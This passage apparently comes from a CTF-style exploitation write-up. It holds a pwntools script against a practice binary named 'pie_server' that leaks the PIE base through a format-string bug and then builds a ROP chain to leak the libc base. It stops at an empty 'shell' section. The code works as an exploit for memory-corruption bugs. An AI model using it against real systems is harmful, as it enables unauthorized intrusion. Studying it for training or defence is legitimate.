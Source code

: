 ### Manual

`exploit.py`:

```python
from pwn import *

# Identify target binary/checksec disabled & Identify libc library/checksec disabled
exe = context.binary = ELF('./pie_server', checksec=False)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
context.terminal = ['mate-terminal', '-e']
# Enable or disable debugging verbosity
# context.log_level = 'debug'

p = exe.process()
# p = remote('hack.me', 31081)

# Calculated offset 
offset = 264

##################### pie leak ######################

# Target the 15th element on the stack with the string format vulnerability to leak PIE
p.sendlineafter(b'name:\n', b'%15$p')
leak = p.recv().split(b'\n')[0].lstrip(b'Hello ')

# Leaked Address (0x555555555224) - PIEBASE (0x555555554000) = Offset of 0x1224
pie_base = int(leak, 16) - 0x1224
log.info(f'pie base: {hex(pie_base)}')

# gdb.attach(p, gdbscript=f'xinfo {pie_base}')
# pause()
# p.interactive()

######################################################

##################### libc leak ######################

exe.address = pie_base

rop = ROP(exe)
rop.puts(exe.got.puts)
rop.vuln()

payload = flat({
    offset: [
        rop.chain()
    ],
})

p.sendline(payload)
leak = p.recv().rstrip(b'\n')

puts_got_leak = u64(leak.ljust(8, b'\x00'))
libc_base = puts_got_leak - libc.symbols['puts']
log.info(f'libc base: {hex(libc_base)}')

# gdb.attach(p, gdbscript=f'xinfo {libc_base}')
# pause()
# p.interactive()

######################################################

####################### shell ########################
```